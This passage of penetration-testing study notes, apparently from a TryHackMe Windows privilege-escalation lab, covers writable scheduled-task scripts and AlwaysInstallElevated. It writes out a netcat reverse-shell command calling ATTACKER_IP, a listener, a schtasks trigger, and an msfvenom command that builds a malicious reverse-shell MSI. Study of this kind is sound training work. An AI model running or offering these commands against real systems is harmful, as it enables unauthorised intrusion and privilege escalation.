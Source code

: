 `Folder: \`

`HostName: THM-PC1`

`TaskName: \vulntask`

`Task To Run: C:\tasks\schtask.bat`

`Run As User: taskusr1`

* Task to Run parameter indicates what gets executed by the scheduled task.
* Run as User parameter shows the user that will execute the task.
* What gets executed by the "Run as User" can be controlled if current user can modify "Task to Run".
  * Results in simple privilege escalation.
* Check File permissions on executable.

i`cacls c:\tasks\schtask.bat`

`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)`

`BUILTIN\Administrators:(I)(F)`

`BUILTIN\Users:(I)(F)`

* (F) means full access over the binary.
  * Can modify .bat and insert any payload.
* Change bat file to spawn reverse shell.

echo c:\tools\nc64.exe -e cmd.exe ATTACKER\_IP 4444 > C:\tasks\schtask.bat

* Start listener on attacker machine.

`nc -lvnp 4444`

* Attacker will receive reverse shell with taskusr1 privileges when scheduled task next runs.
* Start task manually (if current user has permissions).

`schtasks /run /tn vulntask`

* Attacker will immediately receive the reverse shell.

`C:\Windows\system32>whoami`

`wprivesc1\taskusr1`

### **AlwaysInstallElevated** <a href="#ehl5sag561xe" id="ehl5sag561xe"></a>

* Windows installer files (.msi) usually run with privilege level of user that executed it.
  * Can be configured to run with higher privileges.
* Generate malicious MSI file that runs with admin privileges.
* Requires two registry values to be set to exploit the vulnerability.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

* Generate MSI reverse shell file using msfvenom.

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=ATTACKING\_10.10.189.232 LPORT=LOCAL\_PORT -f msi -o malicious.msi
